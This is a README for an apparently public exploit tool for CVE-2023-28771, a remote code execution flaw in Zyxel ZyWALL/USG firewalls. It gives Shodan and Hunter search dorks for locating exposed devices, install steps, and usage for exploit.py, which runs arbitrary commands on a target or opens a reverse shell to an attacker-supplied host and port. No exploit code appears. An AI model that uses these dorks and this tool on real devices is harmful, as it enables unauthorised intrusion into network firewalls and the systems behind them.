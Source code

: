 # CVE-2023-28771
Zyxel ZyWALL/USG Remote Code Execution.

- Shodan dork:
```
/ext-js/app/common/zld_product_spec.js
```
- [Hunter](https://hunter.how) dork:
```
web.body="/ext-js/app/common/zld_product_spec.js"
```


## Install
Requires the scapy Python library for sending IKE packets.

```
pip install -r requirements.txt

```
usage: exploit.py [-h] [--cmd CMD] [--lhost LHOST] [--lport LPORT] rhost

positional arguments:
  rhost

options:
  -h, --help     show this help message and exit
  --cmd CMD
  --lhost LHOST
  --lport LPORT
```

Either use --cmd to run an arbitrary command, or use --lport and --lhost to spawn a revshell
